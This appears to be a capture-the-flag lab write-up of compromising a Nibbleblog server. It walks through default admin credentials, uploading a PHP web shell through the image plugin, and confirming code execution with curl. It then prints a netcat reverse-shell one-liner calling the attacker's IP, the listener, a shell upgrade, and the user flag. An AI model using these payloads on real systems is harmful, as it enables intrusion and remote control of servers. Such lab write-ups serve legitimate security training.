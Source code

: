 #### **1. Admin Portal Access**
- **URL**: `http://10.129.42.190/nibbleblog/admin.php`
- **Login Credentials**:
    - Username: `admin`
    - Password: `nibbles`
- Explored the available pages:
    - **Themes and Plugins** are of particular interest, with the **My image plugin** allowing file uploads.



#### **2. Exploiting File Upload Functionality**
- **Target Page**: `http://10.129.42.190/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image`
- Tested uploading a PHP snippet:
    
    ```php
    <?php system('id'); ?>
    ```
- **Result**:
    - Errors were displayed, but the file uploaded successfully.



#### **3. Locating Uploaded File**
- From enumeration, the upload path was identified:
    - `http://10.129.42.190/nibbleblog/content/private/plugins/my_image/`
- File confirmation:
    ```bash
    curl http://10.129.42.190/nibbleblog/content/private/plugins/my_image/image.php
    ```
- **Output**:
    ```plaintext
    uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
    ```
    - Remote code execution confirmed with the `nibbler` user.



#### **4. Creating a Reverse Shell**
- Modified the PHP file to include a reverse shell payload:
    ```php
    <?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?>
    ```
    - Replace `10.10.14.2` with the attacker's IP and `9443` with a chosen port.



#### **5. Setting Up the Listener**
- Started a Netcat listener:
    ```bash
    nc -lvnp 9443
    ```    



#### **6. Triggering the Reverse Shell**
- Triggered the reverse shell by visiting:
    - `http://10.129.42.190/nibbleblog/content/private/plugins/my_image/image.php`
- **Netcat Output**:
    ```plaintext
    connect to [10.10.14.2] from (UNKNOWN) [10.129.42.190] 40106
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
    ```
    


#### **7. Upgrading to an Interactive Shell**
- Tried upgrading the shell with Python:
    
    ```bash
    python -c 'import pty; pty.spawn("/bin/bash")'
    ```
- **Error**: `python` not found.
- Used Python 3 instead:
    ```bash
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    ```
- **Improved Shell**:
    - Commands like `su` and text editors now functional.



#### **8. Enumerating the Home Directory**
- **Path**: `/home/nibbler`
- **Contents**:
    - `personal.zip`: A compressed file that may hold additional information.
    - `user.txt`: User flag.



### **Next Steps**
1. Extract and analyze the contents of `personal.zip`.
2. Continue enumerating the system for privilege escalation paths to root access.



### Questions
-  Gain a foothold on the target and submit the user.txt flag
	- 79c03865431abf47b90ef24b9695e148
